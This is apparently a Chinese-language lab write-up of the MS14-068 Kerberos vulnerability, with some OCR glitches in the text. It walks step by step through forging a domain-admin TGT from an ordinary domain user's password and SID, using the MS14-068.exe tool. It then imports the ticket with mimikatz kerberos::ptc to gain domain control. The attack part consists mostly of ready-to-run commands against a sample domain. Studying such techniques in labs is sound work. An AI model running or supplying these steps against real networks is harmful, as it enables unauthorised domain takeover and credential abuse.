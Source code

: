 # PTT攻击之ms14-068传递获取域管横向

## MS14-068介绍

ms14-068漏洞主要通过**伪造域管的TGT**,将普通用户权限提权为域管权限，以此来控制域控。

只要服务器**未打ms14-068补丁**(KB3011780) ，在server 2000以上的域控服务器中，都可进行利用

## MS1 4-068的利用条件

- **1、获取域普通用户的账号密码**
- **2、获取域普通用户的sid**
- **3、服务器末打KB3011780补丁**

## MS14-068实验

### 环境介绍

**域控: 192.1 68.70.16 windows server 2012**

**域内机器: 192.168.70.14 win10 lihua域内用户**

### MS14-068利用

#### 查看域用户的SID

```
whoami /all
```

![image-20230313112011907](https://img.gyxnb.top/img/image-20230313112011907.png)

#### 清除内存中的票据

```
klist purge
```

#### 生成票据

```
MS14-068.exe -u 域用户@域名 -p 域用户密码 -s 域用户SID -d 域控

MS14-068.exe -u lihua@hack.com -p 123456.A -s S-1-5-21-3769107300-1842393386-2897162586-1113 -d dc.hack.com
```

![image-20230313114341774](https://img.gyxnb.top/img/image-20230313114341774.png)

#### 导入票据

```
mimikatz kerberos::ptc 票据名字

mimikatz kerberos::ptc TGT_lihua@hack.com.ccache
```
